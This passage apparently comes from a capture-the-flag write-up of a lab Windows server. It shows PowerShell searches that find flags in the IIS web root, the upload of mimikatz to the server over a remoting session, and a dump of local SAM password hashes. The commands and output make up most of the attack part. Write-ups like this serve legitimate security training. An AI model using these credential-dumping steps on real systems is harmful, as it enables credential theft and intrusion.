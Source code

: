 Another flag found: `POO{ff87c4fe10e2ef09...}`

### BackTrack flag

There's another flag hidden in the admin directory of the webserver inside the `iisstart.htm` page:

```
[[dead:babe::1001]]: PS C:\> get-childitem -recurse -path c:\inetpub | select-string -pattern "POO{"

inetpub\wwwroot\admin\iisstart.htm:4:Flag : POO{4882bd2ccfd4b53...}
inetpub\wwwroot\dev\304c0c90fbc6520610abbf378e2339d1\db\poo_connection.txt:6:Flag : POO{fcfb0767f5bd3cbc22f...}
inetpub\wwwroot\dev\dca66d38fd916317687e1390a420c3fc\db\poo_connection.txt:6:Flag : POO{fcfb0767f5bd3cbc22f...}

[[dead:babe::1001]]: PS C:\> type C:\inetpub\wwwroot\admin\iisstart.htm
"I can't go back to yesterday, because i was a different person then..."<br>
- Alice in Wonderland<br>
<br>
Flag : POO{4882bd2ccfd4b53...}
```

Flag: `POO{4882bd2ccfd4b53...}`

### Turning up the heat with mimikatz

Since we have local admin privs on the server we will upload mimikatz to find some passwords in memory:

```
PS C:\Users\snowscan> $session = new-pssession -computername [dead:babe::1001] -credential $Credential
PS C:\Users\snowscan> copy-item -tosession $session -path c:\users\snowscan\downloads\mimikatz.exe -destination c:\temp
PS C:\Users\snowscan> copy-item -tosession $session -path c:\users\snowscan\downloads\mimidrv.sys -destination c:\temp
PS C:\Users\snowscan> copy-item -tosession $session -path c:\users\snowscan\downloads\mimilib.dll -destination c:\temp
```

There's a glitch running mimikatz.exe from our WinRM Sessinon, it keeps scrolling the screen and we can't input anything.

So we'll just issue all commands on one line instead using `.\mimikatz.exe token::elevate lsadump::sam exit`

We can grab the local account hashes but we are already local admin so these are pretty much useless.

```
mimikatz(commandline) # lsadump::sam
Domain : COMPATIBILITY
SysKey : 6dcfa5e3811b05c0a5206da6384f406f
Local SID : S-1-5-21-158512341-328150952-995267585

SAMKey : 03229f5d2ecab8b1cc95959c14856ded

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: a6678287c3e811f1eaef2f1986da157a
    lm  - 0: 252720cc3ea62ef269fe2d0bce3dbad5
    ntlm- 0: a6678287c3e811f1eaef2f1986da157a
    ntlm- 1: 39b00baccb2ec3b25f175de4d5371709

RID  : 000001f5 (501)
User : Guest

```